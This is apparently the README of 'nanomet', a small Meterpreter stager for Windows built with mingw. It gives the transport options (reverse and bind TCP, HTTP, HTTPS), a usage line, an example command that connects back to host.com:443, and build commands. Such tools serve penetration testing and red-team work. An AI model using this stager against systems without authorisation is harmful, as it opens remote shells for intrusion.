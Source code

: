 nanomet
=======

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost
nanomet is tinymet modified to support compiling using mingw compilers.

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

   nanomet.exe 2 host.com 443

will use reverse_https and connect to host.com:443

Building
========

Linux: 

   make CC=i586-mingw32msvc-gcc

Mac OS X:

   make CC=i386-mingw32-gcc

Microsoft Windows / Visual C++:

   nmake /f Makefile.vc


